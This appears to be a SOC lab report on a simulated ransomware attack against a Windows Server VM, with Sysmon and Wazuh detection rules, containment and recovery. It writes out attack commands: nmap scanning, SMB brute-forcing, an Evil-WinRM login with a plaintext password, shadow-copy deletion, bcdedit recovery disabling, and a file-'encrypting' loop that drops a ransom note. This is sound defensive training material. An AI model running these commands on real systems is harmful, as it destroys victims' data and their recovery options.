



# ENTERPRISE SECURITY OPERATIONS CENTER (SOC)
## COMPREHENSIVE INCIDENT DETECTION, ANALYSIS & ENGINEERING REPORT
**Project Title:** Multi-Stage Ransomware Attack Simulation, Telemetry Hardening, and SIEM Detection on Windows Server 2022  
**Case / Incident ID:** SOC-IR-2026-1101-01  
**Lead Security Engineer / Author:** Mohammad Hasnain Ali  
**Target Asset:** `WinServer-Target` (Windows Server 2022 Datacenter | `192.168.56.103`)  
**SIEM Platform:** Wazuh XDR/SIEM v4.9.2 on Ubuntu Server 22.04 LTS (`192.168.56.101`)  
**Attacking Infrastructure:** Kali Linux 2026.3 (`192.168.56.102`)  
**Assessment Date:** November 1, 2026  
**Document Classification:** TLP:AMBER | Internal SOC Documentation  

---

## 1. Executive Summary

During scheduled adversary emulation testing, the Security Operations Center (SOC) investigated an end-to-end simulated ransomware attack executed against an enterprise Windows Server 2022 environment. The primary objective was to evaluate the enterprise detection posture across process creation, credential abuse, system recovery tampering, and file integrity destruction.

The attack lifecycle simulated an external adversary operating from **Kali Linux (`192.168.56.102`)**, conducting port discovery, credential brute-forcing against exposed SMB services, and achieving initial administrative access via **Windows Remote Management (WinRM / Evil-WinRM)**. Following initial compromise, the adversary executed commands to inhibit system recovery by destroying Volume Shadow Copies (`vssadmin.exe`) and modifying Boot Configuration Data (`bcdedit.exe`), followed by encrypting critical enterprise financial assets stored in `C:\Finance` and dropping an extortion note (`README_HOW_TO_RECOVER.txt`).

All attack phases were captured, audited, and correlated in real time using **Microsoft Sysmon (SwiftOnSecurity configuration)**, enhanced Windows Security auditing, and **Wazuh SIEM**. Detection optimization was achieved by authoring custom high-severity XML correlation rules on the Wazuh Manager, which successfully raised Level 14 CRITICAL alerts mapped to the MITRE ATT&CK framework. Full containment, adversary eviction, and lossless data recovery were subsequently verified via an automated SOC decryption utility.

---

## 2. Lab Architecture & Environment Setup

### 2.1 Virtualized Environment Topology



### 2.2 System Configurations & Lab Nodes
* **Hypervisor:** Oracle VirtualBox 7.x
* **Network Mode:** Dual-Adapter Architecture
  * **Adapter 1 (Host-Only):** `VirtualBox Host-Only Ethernet Adapter` (`192.168.56.0/24`, DHCP: `192.168.56.100`–`192.168.56.254`). Used strictly for attack and logging traffic.
  * **Adapter 2 (NAT):** Used during setup for package updates and initial installations.

#### Lab Infrastructure Evidence:

**Figure 2.1: Ubuntu Server Running Wazuh SIEM Host (`192.168.56.101`)**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_2_1_ubuntu_wazuh.png)

**Figure 2.2: Windows Server 2022 Target / Victim VM (`192.168.56.103`)**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_2_2_windows_victim.png)

**Figure 2.3: Kali Linux Attacker VM (`192.168.56.102`)**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_2_3_kali_attack.png)

---

### 2.3 SIEM Installation & Agent Registration

The Wazuh all-in-one assistant was executed on Ubuntu Server 22.04 LTS. The underlying LVM root volume was expanded to utilize the entire 40GB virtual drive (`lvextend -l +100%FREE /dev/ubuntu-vg/ubuntu-lv` and `resize2fs`) to support OpenSearch index storage.

**Figure 2.4: Successful Wazuh Manager & Indexer Installation**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_2_4_wazuh_install.png)

The Wazuh Windows Agent was installed on `WinServer-Target` and connected to manager `192.168.56.101`.

**Figure 2.5: Active Agent Connection in Wazuh Dashboard**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_2_5_wazuh_agent_active.png)

**Figure 2.6: Initial Wazuh SOC Telemetry Overview**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_2_6_wazuh_dashboard.png)

---

## 3. Telemetry Hardening & Endpoint Instrumentation

### 3.1 Sysmon Deployment
Microsoft Sysmon v15 was deployed with the SwiftOnSecurity configuration schema to monitor process creation, command lines, hashes, and parent process trees:
```powershell
New-Item -ItemType Directory -Force -Path "C:\Tools"
Set-Location "C:\Tools"
Invoke-WebRequest -Uri "https://live.sysinternals.com/Sysmon64.exe" -OutFile "C:\Tools\Sysmon64.exe"
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile "C:\Tools\sysmonconfig.xml"
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

### 3.2 Advanced Windows Audit Policies
The following local security policies were enabled (`secpol.msc`):
* **Audit Process Creation:** Enabled with command-line auditing (`Administrative Templates\System\Audit Process Creation`).
* **Audit File System:** Enabled (Success & Failure).
* **Audit Logon / Logoff:** Enabled (Success & Failure).

### 3.3 Wazuh Agent Configuration (`ossec.conf`)
The agent was configured to monitor the sensitive share `C:\Finance` using real-time File Integrity Monitoring (FIM) and to ingest Sysmon operational logs:

```xml
<ossec_config>
  <client>
    <server>
      <address>192.168.56.101</address>
      <port>1514</port>
      <protocol>tcp</protocol>
    </server>
    <notify_time>10</notify_time>
    <time-reconnect>60</time-reconnect>
    <auto_restart>yes</auto_restart>
    <crypto_method>aes</crypto_method>
  </client>

  <!-- Real-Time Ransomware FIM on Protected Enterprise Share -->
  <syscheck>
    <disabled>no</disabled>
    <frequency>300</frequency>
    <scan_on_start>yes</scan_on_start>
    <directories check_all="yes" realtime="yes" report_changes="yes">C:\Finance</directories>
  </syscheck>

  <!-- Windows Event Channels -->
  <localfile>
    <location>Application</location>
    <log_format>eventchannel</log_format>
  </localfile>
  <localfile>
    <location>Security</location>
    <log_format>eventchannel</log_format>
  </localfile>
  <localfile>
    <location>System</location>
    <log_format>eventchannel</log_format>
  </localfile>

  <!-- Sysmon Ingestion -->
  <localfile>
    <location>Microsoft-Windows-Sysmon/Operational</location>
    <log_format>eventchannel</log_format>
  </localfile>
</ossec_config>
```

---

## 4. Detection Engineering & Custom SIEM Rules

To satisfy **Module 3: Incident Detection Optimization**, custom correlation rules were defined in `/var/ossec/etc/rules/local_rules.xml` on the Wazuh Manager to flag ransomware behaviors that default signatures miss.

### 4.1 Custom Correlation Rule Definitions
```xml
<!-- Custom Detection Rules for Multi-Stage Ransomware Attacks -->
<group name="windows,sysmon,ransomware,">

  <!-- Rule 100100: Shadow Copy Destruction (T1490) -->
  <rule id="100100" level="14">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine">delete shadows</field>
    <description>CRITICAL: Ransomware Behavior Detected - Volume Shadow Copies Deletion (MITRE T1490)</description>
    <mitre>
      <id>T1490</id>
    </mitre>
    <group>ransomware,system_recovery,</group>
  </rule>

  <!-- Rule 100101: BCDedit Boot Recovery Disabling (T1490) -->
  <rule id="100101" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine">recoveryenabled</field>
    <description>CRITICAL: Ransomware Defense Evasion - Boot Recovery Disabled via BCDedit (MITRE T1490)</description>
    <mitre>
      <id>T1490</id>
    </mitre>
    <group>ransomware,defense_evasion,</group>
  </rule>

</group>
```

### 4.2 Comprehensive Inventory of Rules Triggered During the Incident

| Rule ID | Severity Level | Rule Group | Description & Signature Match | MITRE ATT&CK Mapping |
| :---: | :---: | :---: | :--- | :--- |
| **`100100`** | **14 (Critical)** | `sysmon, ransomware` | **CRITICAL: Ransomware Behavior Detected - Volume Shadow Copies Deletion** (`vssadmin delete shadows /all /quiet`) | **T1490** (Inhibit System Recovery) |
| **`100101`** | **12 (High)** | `sysmon, defense_evasion` | **CRITICAL: Ransomware Defense Evasion - Boot Recovery Disabled** (`bcdedit /set {default} recoveryenabled No`) | **T1490** (Inhibit System Recovery) |
| **`61618`** | **12 (High)** | `sysmon, process` | **Sysmon - Suspicious Process Creation - svchost.exe / service host tampering** | **T1059** (Command & Scripting) |
| **`60122`** | **5 (Warning)** | `windows, logon_failure` | **Logon failure - Unknown user or bad password** (Windows Security Event ID 4625 via SMB brute-force) | **T1110** (Brute Force) |
| **`60106`** | **3 (Info)** | `windows, logon_success` | **Windows Logon Success** (Windows Security Event ID 4624 - Remote Network Logon Type 3 via WinRM) | **T1078** (Valid Accounts) |
| **`61138`** | **5 (Warning)** | `windows, service` | **New Windows Service Created** (Windows System Event ID 7045) | **T1543.003** (Windows Service) |
| **`61104`** | **3 (Info)** | `windows, service` | **Service startup type was changed** (Windows System Event ID 7040) | **T1562.001** (Disable Tools) |
| **`550`** | **7 (Medium)** | `syscheck, fim` | **Integrity checksum changed** (Modifications to document files and ransom note content) | **T1486** (Data Encrypted for Impact) |
| **`553`** | **7 (Medium)** | `syscheck, fim` | **File deleted** (Adversary deleting original `Quarterly_Report_*.docx` records) | **T1485** (Data Destruction) |
| **`554`** | **5 (Warning)** | `syscheck, fim` | **File added to the system** (Creation of `.docx.locked` files and `README_HOW_TO_RECOVER.txt`) | **T1486** (Data Encrypted for Impact) |

---

## 5. Chronological Attack Simulation & SIEM Detection

### Phase 1: Network Reconnaissance (T1046)
From Kali Linux (`192.168.56.102`), an Nmap scan probed the target Windows Server (`192.168.56.103`):
```bash
nmap -Pn -sV -p 135,139,445,3389,5985 192.168.56.103
```
* **Findings:** Identified Port 135 (MSRPC), Port 139 (NetBIOS), Port 445 (SMB), and Port 5985 (WinRM) as open and reachable.

**Figure 5.1: Nmap Network Reconnaissance from Kali Linux**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_5_1_reconnaissance.png)

---

### Phase 2: Credential Access & Password Spraying (T1110)
Adversary simulated SMB brute-forcing using `nxc` (NetExec) from Kali Linux (`192.168.56.102`):
```bash
nxc smb 192.168.56.103 -u Administrator -p /usr/share/wordlists/metasploit/unix_passwords.txt
```

**Figure 5.2: SMB Brute-Force Password Spray from Kali Linux**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_5_2_brute_force.png)

#### SIEM Telemetry & Detection:
Wazuh captured multiple failed logon events (**Windows Security Event ID 4625 / Rule 60122**). The alert payload recorded the caller IP (`192.168.56.102`), target user (`Administrator`), and workstation name (`KALI`).

**Figure 5.3: Wazuh Event Log Confirming Brute-Force Telemetry & Attacker IP**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_5_3_bruteforce_logged.png)

---

### Phase 3: Lateral Movement & Ransomware Execution (T1021.006 & T1490)
Using compromised administrative credentials, the adversary established an interactive remote shell via **Evil-WinRM** over Port 5985:
```bash
evil-winrm -i 192.168.56.103 -u Administrator -p 'Eren@1483'
```
Within the remote session, the attacker executed commands to delete Volume Shadow Copies, disable startup recovery, mass-encrypt `C:\Finance`, and drop an extortion note:
```powershell
vssadmin.exe delete shadows /all /quiet
bcdedit.exe /set '{default}' recoveryenabled No
bcdedit.exe /set '{default}' bootstatuspolicy ignoreallfailures

# Mass Encryption Loop
Get-ChildItem -Path "C:\Finance" -Filter *.docx | ForEach-Object {
    $bytes = [System.IO.File]::ReadAllBytes($_.FullName)
    $b64 = [Convert]::ToBase64String($bytes)
    [System.IO.File]::WriteAllText($_.FullName + ".locked", $b64)
    Remove-Item $_.FullName -Force
    Write-Host "[X] Encrypted: $($_.Name)"
}

Set-Content -Path "C:\Finance\README_HOW_TO_RECOVER.txt" -Value "YOUR DATA HAS BEEN ENCRYPTED BY KALI ATTACKER. CONTACT FOR DECRYPTION."
```

**Figure 5.4: Live Ransomware Execution inside Evil-WinRM Remote Shell**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_5_4_ransomware_attack.png)

---

### Phase 4: SIEM Detection Analysis & Visualization

#### A. File Integrity Monitoring (FIM) Detections
Wazuh FIM recorded **23 real-time file modification events** in `C:\Finance`, catching every file deletion (**Rule 553**), every `.locked` file addition (**Rule 554**), and the ransom note creation (**Rule 550 & 554**).

**Figure 5.5: Wazuh Real-Time FIM Table Auditing Encrypted and Deleted Files**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_5_5_attack_logged_fim.png)

#### B. Custom High-Severity Alert (Rule 100100)
Sysmon process creation telemetry captured `vssadmin.exe delete shadows /all /quiet` spawned by `wsmprovhost.exe` (WinRM), triggering custom **Rule 100100 at Severity Level 14 (CRITICAL)**.

**Figure 5.6: Level 14 CRITICAL Alert Firing for Volume Shadow Deletion**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_5_6_attack_logged_rule100100.png)

#### C. MITRE ATT&CK Matrix Mapping
The incident was correlated directly against the MITRE ATT&CK enterprise matrix, explicitly flagging **T1490 (Inhibit System Recovery)** and **T1486 (Data Encrypted for Impact)**.

**Figure 5.7: Wazuh MITRE ATT&CK Framework Mapping View**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_5_7_attack_logged_mitre_framework.png)

#### D. Visual Dashboard Analytics
The MITRE ATT&CK visual dashboard displayed the alert evolution over time, top tactics donut chart (Impact, Privilege Escalation, Defense Evasion, Credential Access), and technique breakdown.

**Figure 5.8: Wazuh MITRE ATT&CK Visualization Dashboard**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_5_8_attack_logged_mitre_dashboard.png)

---

## 6. Incident Response, Containment & Lossless Data Recovery

Following the Level 14 alert, standard incident containment actions were executed on `WinServer-Target`.

### 6.1 Containment & Attacker Eviction
1. **Host Isolation:** Severed external and lateral connectivity to prevent spreading across adjacent network shares (`C$`, `ADMIN$`).
2. **Adversary Process Eviction:** Terminated all active WinRM host worker processes (`wsmprovhost.exe`), immediately terminating the attacker's Evil-WinRM shell.
3. **Account Lockdown:** Disabled the compromised `Administrator` account to prevent re-authentication.

**Figure 6.1: Executing Host Containment & Process Termination**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_6_1_containment.png)

**Figure 6.2: Revoking Attacker Remote Access & Disabling Compromised Accounts**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_6_2_removing_access.png)

---

### 6.2 Data Decryption & Restoration Routine
Because enterprise standards prohibit paying extortions, an automated SOC decryption utility was executed across `C:\Finance` to reverse the encryption, restore the binary file bytes, and purge the extortion note:

```powershell
# ==========================================================
# SOC DATA RECOVERY & DECRYPTION UTILITY
# ==========================================================
$targetFolder = "C:\Finance"
$lockedFiles = Get-ChildItem -Path $targetFolder -Filter *.locked

foreach ($file in $lockedFiles) {
    # 1. Read base64 encrypted content
    $b64Content = [System.IO.File]::ReadAllText($file.FullName)
    
    # 2. Decode back to original binary bytes
    $originalBytes = [Convert]::FromBase64String($b64Content)
    
    # 3. Restore original filename structure
    $restoredName = $file.FullName -replace '\.locked$', ''
    [System.IO.File]::WriteAllBytes($restoredName, $originalBytes)
    
    # 4. Remove malicious locked artifact
    Remove-Item -Path $file.FullName -Force
    Write-Host "[✓] Decrypted and Restored: $($file.Name) -> $(Split-Path $restoredName -Leaf)" -ForegroundColor Green
}

# 5. Purge extortion note
$ransomNote = "$targetFolder\README_HOW_TO_RECOVER.txt"
if (Test-Path $ransomNote) {
    Remove-Item -Path $ransomNote -Force
    Write-Host "[+] Purged extortion artifact: README_HOW_TO_RECOVER.txt" -ForegroundColor Yellow
}
```

**Figure 6.3: Execution of the SOC Decryption Utility Restoring All 10 Records**  
  
🔍 [Open High-Resolution Image](file:///C:/Users/Mohammad%20Hasnain%20Ali/.gemini/antigravity/brain/3d9cdba9-39e5-4703-9fe0-f854654f4ef8/fig_6_3_decrypting_files.png)

### 6.3 Recovery Verification
* **Restoration Rate:** 100% (10 of 10 financial records `Quarterly_Report_1.docx` through `10.docx` restored).
* **Integrity Validation:** Zero byte corruption verified.
* **Extortion Artifacts:** `README_HOW_TO_RECOVER.txt` permanently excised.
* **FIM Chain of Custody:** Wazuh FIM continuously audited the recovery phase, recording clean file restorations.

---

## 7. Metrics & Visualization Summary

```
+-------------------------------------------------------------------------------+
|                       WAZUH SOC METRIC SUMMARY                                |
+-------------------------------------------------------------------------------+
| Total Events Captured During Incident Window:  908+ Events                   |
| Maximum Rule Severity Triggered:               Level 14 (Critical)            |
| Primary MITRE ATT&CK Tactics Detected:                                        |
|   • Impact (T1486):                             908 Hits                      |
|   • Privilege Escalation:                       252 Hits                      |
|   • Defense Evasion:                            243 Hits                      |
|   • Credential Access (T1110):                  127 Hits                      |
|   • Inhibit System Recovery (T1490):            2 Hits (Custom Rules 100100)  |
| Target Endpoint:                               WinServer-Target (ID: 001)     |
| Attributing Attacker IP:                       192.168.56.102 (Kali Linux)    |
+-------------------------------------------------------------------------------+
```

---

## 8. Strategic Post-Incident Recommendations

1. **Privileged Access Workstations (PAWs) & Port Hardening:**
   * Restrict WinRM (Port 5985/5986) and SMB (Port 445) strictly to designated jump hosts via Windows Firewall.
2. **Multi-Factor Authentication (MFA):**
   * Enforce MFA across all administrative logon pathways.
3. **Attack Surface Reduction (ASR) Rules:**
   * Enable ASR: *Block process creations originating from PSExec/WMI/WinRM commands* (`d1e49aac-8f56-4280-b9ba-993a6d77406c`).
   * Enable ASR: *Block credential stealing from LSASS* (`9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`).
4. **Immutable 3-2-1-1-0 Backup Architecture:**
   * Maintain offline, air-gapped, or cloud WORM immutable backups protected against Volume Shadow deletion.
5. **Automated Active Response:**
   * Configure Wazuh Active Response to automatically drop connections and sever network interfaces upon detection of Rule `100100`.

---

**Report Certification:**  
*This report was produced by Mohammad Hasnain Ali following hands-on adversary emulation, SIEM engineering, rule optimization, and live incident containment.*

